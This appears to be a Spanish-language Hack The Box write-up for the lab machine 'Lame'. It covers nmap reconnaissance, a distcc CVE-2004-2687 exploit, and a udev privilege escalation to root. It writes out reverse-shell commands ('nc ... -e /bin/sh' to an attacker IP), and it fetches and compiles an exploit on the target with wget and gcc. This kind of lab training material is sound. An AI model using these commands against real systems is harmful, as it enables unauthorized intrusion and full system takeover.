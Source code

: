 ```yaml
---
layout: post
title:  "HTB_Lame"
date:   2020-08-17 18:36:10 -0500
categories: HackTheBox
---
```


## HTB Lame ##

![Pic](writeups/assets/Lame/Picture.png)

### Reconocimiento ###

Utilize la herramienta *Autorecon* de Tiberius para un reconocimiento inicial y en paralelo corri nmap para ver que puertos estaban abiertos.

` nmap -A -p- 10.10.10.3 `

Luego de terminar autorecon - entre en el folder de scans y puedo obtener la siguiente informacion de los puertos abiertos:

- **Puerto 21**: FTP (vsftpd 2.3.4), permite acceso anonimo al share.
- **Puerto 22**: OpenSSH (4.7p), casi nunca es vulnerable
- **Puerto 139 y 445**: Samba, uno tiene el 3.0-4.0 y el otro 3.0.20
- **Puerto 3632**: Distcc, nunca en la vida habia escuchado de ese servicio, autorecon lo muestra en los _pattern

![autorecon](/assets/Lame/autorecondistcc.png)

### Enumeracion ###

#### Puerto21 ####
Primero empezamos con nuestros puntos de entrada - buscamos en google y nos damos cuenta que esta version de vsftpd es vulnerable, buscamos un script de nmap para asegurarnos de que esto sea posible.

` ls /usr/share/nmap/scripts/ftp* `

Vemos que existe uno para vsftpd que se llama *vsftpd-backdoor.nse*

Ejecutamos el script
` nmap --script ftp-vsftpd-backdoor.nse -p 21 10.10.10.3 `

Nos dice que no es vulnerable, nos movemos a nuestro siguiente punto de entrada

#### Puerto 22 ####
SSH es lo ultimo que queremos mirar, pasemos a los samba

#### Puerto 139 ####
` smbclient -L 10.10.10.3 `

Me da un error *protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED*

` smbmap -H 10.10.10.3 `

Si muestra que tenemos read/write access a un folder que se llama oh noes!

Buscando en google para vulnerabilidades de esta version de Samba, hay varias, pero la mayoria necesitan Metasploit, asi que pasamos a nuestro siguiente puerto

### Exploitation ###

#### Port 3632 Distcc ####

En el _Pattern log de autorecon, sale que nmap encontro una vulnerabilidad en este puerto, para asegurarnos corremos

` nmap --script distcc-cve2004-2687 -p 3632 10.10.10.3 `

Y Efectivamente, si es vulnerable!

Buscando la vulnerabilidad en google - encontramos un script de python que nos puede dar acceso en shell, solo tenemos que seguir las instrucciones.

![script](/assets/Lame/script.png)

- `nc -nlvp 1403`
- ` exploit.py -t 10.10.10.3 -p 3632 -c "nc 10.10.16.85 1403 -e /bin/sh" `

Cuando corres el exploit te va a dar un socket timeout pero ya estas in - lo que tienes que hacer despues es spawn un TTY shell

` python -c 'import pty; pty.spawn("/bin/sh")' `

![exploit](/assets/Lame/shell.png)

Buscamos nuestro user.txt

### Privilege Escalation ###
Buscando en google la version del sistema operativo para ver vulnerabilidades encontramos un exploit escrito en .c [2009-1185](https://www.exploit-db.com/exploits/8572) lo buscamos en searchsploit y lo bajamos a nuestro folder.

` searchsploit -m 8572.c `

Seteamos un servidor python en nuestra maquina atacante

` python3 -m http.server `

En la maquina objetivo, hacemos un wget

` wget http://10.10.16.85/8572.c `

Compilamos el exploit usando gcc

` gcc 8572.c -o 8572 `

Seguimos las instrucciones que salen en el script

[Instrucciones]

Tenemos que:
- Darle el PID (ProcessID) del udevd netlink socket
- Crear un run file en /tmp y agregarle un reverse shell

` ps -aux | grep devd `

o tambien usando

` cat /proc/net/netlink `

Este va a tener uno menos que el DEVD inet, el que hay que usar - 2687 o el que sale en ` cat /proc/net/netlink `

![inet](/assets/Lame/PID.png)


Segundo paso es crear un run file en /tmp y agregarle el reverse shell
- ` #!/bin/bash `
- ` nc -nv 10.10.16.85 4444 -e /bin/bash `

Seteamos un listener en nuestra maquina con el puerto que establecimos anteriormente y ejecutamos el exploit con el PID que identificamos

![Root](/assets/Lame/root.png)

### Notas ###
- Full port scans
- Enumeracion de servicios
- Compilar exploits y transferirlos de una maquina a otra

